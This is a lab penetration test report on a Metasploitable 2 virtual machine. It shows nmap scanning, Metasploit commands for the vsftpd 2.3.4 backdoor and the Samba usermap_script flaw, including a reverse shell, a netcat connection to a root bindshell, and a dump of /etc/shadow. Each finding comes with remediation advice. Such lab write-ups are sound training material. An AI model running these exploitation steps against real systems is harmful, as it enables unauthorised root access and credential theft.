







# Linux Infrastructure Penetration Test — Metasploitable 2
**Target:** Metasploitable 2 — `10.10.10.20`  
**Date:** 05 May 2026  
**Tester:** Leonard Iacob  
**Type:** Black box — network access only, no prior knowledge  
**Tools:** Nmap, Metasploit, Netcat  

---

## Overview

Ran a full black box assessment against a Linux target. Starting from a host sweep, identified an extremely wide attack surface with multiple paths to root. Achieved root access three separate ways without needing to escalate privileges on any of them — every exploit landed directly as root.

**Result:** Full system compromise via three independent attack paths. `/etc/shadow` dumped.

---

## Findings Summary

| ID | Title | CVE | Severity |
|---|---|---|---|
| FIND-01 | vsftpd 2.3.4 backdoor | CVE-2011-2523 | Critical |
| FIND-02 | Open root bindshell on port 1524 | N/A | Critical |
| FIND-03 | Samba 3.0.20 username map script RCE | CVE-2007-2447 | Critical |
| FIND-04 | Anonymous FTP access | N/A | High |
| FIND-05 | Telnet running in cleartext | N/A | High |
| FIND-06 | Excessive exposed services | N/A | Medium |

---

## Attack Chain

### 1. Network Discovery

```bash
sudo nmap -sn 10.10.10.0/24
```

Found 10.10.10.20 alive. Ran a full port scan with service detection:

```bash
sudo nmap -sV -sC -p- 10.10.10.20
```





**30 open ports** identified. Key services:

| Port | Service | Version |
|---|---|---|
| 21 | FTP | vsftpd 2.3.4 |
| 22 | SSH | OpenSSH 4.7p1 |
| 23 | Telnet | Linux telnetd |
| 80 | HTTP | Apache 2.2.8 |
| 139/445 | SMB | Samba 3.0.20 |
| 1524 | Bindshell | Root shell |
| 3306 | MySQL | 5.0.51a |
| 3632 | distccd | 4.2.4 |
| 5432 | PostgreSQL | 8.3.0 |
| 5900 | VNC | Protocol 3.3 |
| 6667 | IRC | UnrealIRCd |
| 8180 | HTTP | Apache Tomcat |

The attack surface is enormous. Three paths to root were chosen for demonstration.

---

### 2. Path 1 — vsftpd 2.3.4 Backdoor (CVE-2011-2523)

vsftpd 2.3.4 was shipped with a backdoor introduced via a compromised source package. When a username containing `:)` is sent to the FTP service, a root shell binds on port 6200.

```
msf > use exploit/unix/ftp/vsftpd_234_backdoor
msf > set RHOSTS 10.10.10.20
msf > run
```



Shell returned as `uid=0(root) gid=0(root)`. Dumped `/etc/shadow` for all password hashes:



**What this means:** Any attacker with network access to port 21 gets an instant root shell. No credentials, no brute force — the backdoor is triggered by a specific string in the username field.

---

### 3. Path 2 — Open Root Bindshell (Port 1524)

Port 1524 was identified during the Nmap scan as a bindshell. Connected with netcat — no exploit, no credentials:

```bash
nc 10.10.10.20 1524
id
```



`uid=0(root) gid=0(root)` returned immediately.

**What this means:** Someone left an open root shell on this machine, accessible by anyone on the network. This is not a vulnerability in a service — it is a backdoor. In a real engagement this would be escalated immediately as a potential indicator of prior compromise.

---

### 4. Path 3 — Samba 3.0.20 Username Map Script (CVE-2007-2447)

Samba 3.0.20 contains a command injection vulnerability in the username field when the `username map script` option is enabled. Shell metacharacters in the username are passed directly to `/bin/sh`.

```
msf > use exploit/multi/samba/usermap_script
msf > set RHOSTS 10.10.10.20
msf > set LHOST 10.10.10.10
msf > run
```



Reverse shell returned as `uid=0(root) gid=0(root)`.

**What this means:** Any attacker who can reach port 445 can execute arbitrary commands as root by injecting shell metacharacters into the SMB username field.

---

## Findings

### FIND-01 — vsftpd 2.3.4 Backdoor
**Severity:** Critical | **CVE:** CVE-2011-2523

The version of vsftpd running (2.3.4) contains a backdoor introduced into the official source package in 2011. Sending `:)` in the FTP username triggers a root shell on port 6200.

**Impact:** Unauthenticated remote root access. Full system compromise in seconds.

**Remediation:**
- Remove vsftpd 2.3.4 immediately — upgrade to a current, verified version
- If FTP is needed, verify the package hash against a trusted source
- Prefer SFTP over FTP

---

### FIND-02 — Open Root Bindshell on Port 1524
**Severity:** Critical

Port 1524 accepts connections and immediately drops into a root shell with no authentication. This is not a service vulnerability — it is a backdoor.

**Impact:** Any host on the network can become root on this machine by connecting to port 1524 with netcat.

**Remediation:**
- Identify what is binding port 1524 and remove it
- Audit all running processes and services for anything unexpected
- Treat this as a potential indicator of prior compromise — investigate how it got there

---

### FIND-03 — Samba 3.0.20 Username Map Script RCE
**Severity:** Critical | **CVE:** CVE-2007-2447

Samba 3.0.20 passes usernames to `/bin/sh` without sanitisation when `username map script` is configured. Shell metacharacters in the username result in arbitrary command execution as root.

**Impact:** Unauthenticated remote root access via port 445.

**Remediation:**
- Upgrade Samba to a current patched version
- Remove `username map script` from smb.conf if not required
- Restrict SMB access to authorised hosts only via firewall

---

### FIND-04 — Anonymous FTP Access
**Severity:** High

The FTP service on port 21 allows anonymous login. Any user can connect and browse the FTP server without credentials.

**Impact:** Potential exposure of sensitive files. Also serves as an initial reconnaissance vector.

**Remediation:**
- Disable anonymous FTP if not explicitly required
- If required, restrict anonymous access to a read-only, isolated directory with no sensitive content

---

### FIND-05 — Telnet Running in Cleartext
**Severity:** High

Telnet is running on port 23. All traffic including credentials is transmitted in plaintext and can be intercepted by any host on the network.

**Impact:** Credential capture via network sniffing.

**Remediation:**
- Disable Telnet
- Use SSH for all remote access

---

### FIND-06 — Excessive Exposed Services
**Severity:** Medium

30 ports were found open on this host including distccd, rexecd, rsh, X11, IRC, Java RMI, and VNC. Each represents an additional attack surface. Many of these services have known vulnerabilities and none appear necessary for normal operation.

**Impact:** Each additional service is a potential entry point. Reducing the attack surface limits exposure significantly.

**Remediation:**
- Disable all services not required for the system's function
- Implement host-based firewall rules to restrict access to necessary ports only
- Apply the principle of least functionality

---

## Tools Used

| Tool | Purpose |
|---|---|
| Nmap | Network discovery, port scanning, service detection |
| Metasploit | Exploitation (vsftpd backdoor, Samba usermap_script) |
| Netcat | Direct connection to bindshell |
